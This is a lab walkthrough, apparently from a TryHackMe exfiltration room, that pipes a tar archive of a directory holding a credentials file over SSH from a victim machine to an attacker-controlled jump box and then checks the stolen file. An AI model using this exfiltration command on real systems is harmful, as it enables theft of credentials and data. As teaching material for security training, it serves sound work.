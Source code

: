 # Exfiltration Using SSH

In this task, we will demonstrate how to use the SSH protocol to exfiltrate data to an attacking machine. The SSH protocol establishes a secure channel to interact and transfer data between the client and server, ensuring that all transmitted data is encrypted over the network or the Internet.

## Encrypted SSH Communication Channel

To transfer data over SSH, we can use either the Secure Copy Protocol (SCP) or the SSH client. In this scenario, we assume that the `scp` command is unavailable, so we will focus on using the SSH client.

As mentioned earlier, an attacker needs to control a server with an SSH server enabled to receive the exfiltrated data. In this example, we will use the AttackBox as our SSH server. Alternatively, the JumpBox can also be used since it has an SSH server enabled.

## Transferring Sensitive Data

Let’s assume we have gained access to sensitive data that must be transmitted securely. First, connect to the `victim1` or `victim2` machine.

### Data to Be Transferred

```bash
thm@victim1:~$ cat task5/creds.txt
admin:password
Admin:123456
root:toor
```

We will use the same technique discussed in the "Exfiltration Using a TCP Socket" task. This involves using the `tar` command to archive the data and then transferring it.

### Exfiltrating Data from the Victim Machine

```bash
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

#### Command Breakdown:

1. **Archiving the Data**:  
    The `tar` command is used to create an archive of the `task5` directory.

2. **Transferring the Archive**:  
    The archive is passed over SSH. SSH clients allow executing a single command without starting a full session.

3. **Executing Commands on the Server**:  
    The command to be executed on the server is enclosed in double quotes:  
    `"cd /tmp/; tar xpf -"`  
    - `cd /tmp/`: Changes the directory to `/tmp/`.  
    - `tar xpf -`: Extracts the received archive.

After executing the command, the file is successfully transmitted to the attacker machine.

### Verifying the Received Data

On the attacker machine:

```bash
thm@jump-box$ cd /tmp/task5/
thm@jump-box:/tmp/task5$ cat creds.txt
admin:password
Admin:123456
root:toor
```

The data has been successfully exfiltrated and verified.